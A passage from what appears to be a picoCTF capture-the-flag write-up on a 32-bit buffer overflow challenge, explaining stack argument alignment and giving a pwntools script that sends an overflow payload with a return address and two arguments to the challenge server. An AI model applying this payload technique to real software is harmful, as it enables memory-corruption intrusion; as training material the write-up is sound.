 ```c
if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
```

This is what will happen:

![bof22](/assets/img/picogym-pwn-easy/bof2/bof22.png)

Notice how `DWORD PTR [ebp+0x8]` contains `0xf00df00d` instead of `0xcafef00d`. We can solve it by simply adding 4 extra bytes right before the first argument so that everything gets aligned.

So far we have: 112 bytes + return address + 4 bytes of anything + first argument + second argument

Here is how I solved it:
```python
from pwn import *

context(arch = "i386", os="linux", endian="little")

p = remote("saturn.picoctf.net", 58084)

payload = b'A' * 112
payload += p32(0x08049296)
payload += p32(0)
payload += p32(0xcafef00d)
payload += p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```

## x sixty what

This is a similar challenge to the previous ones. The main difference is that we now have a 64 bits file. Here is the source code:
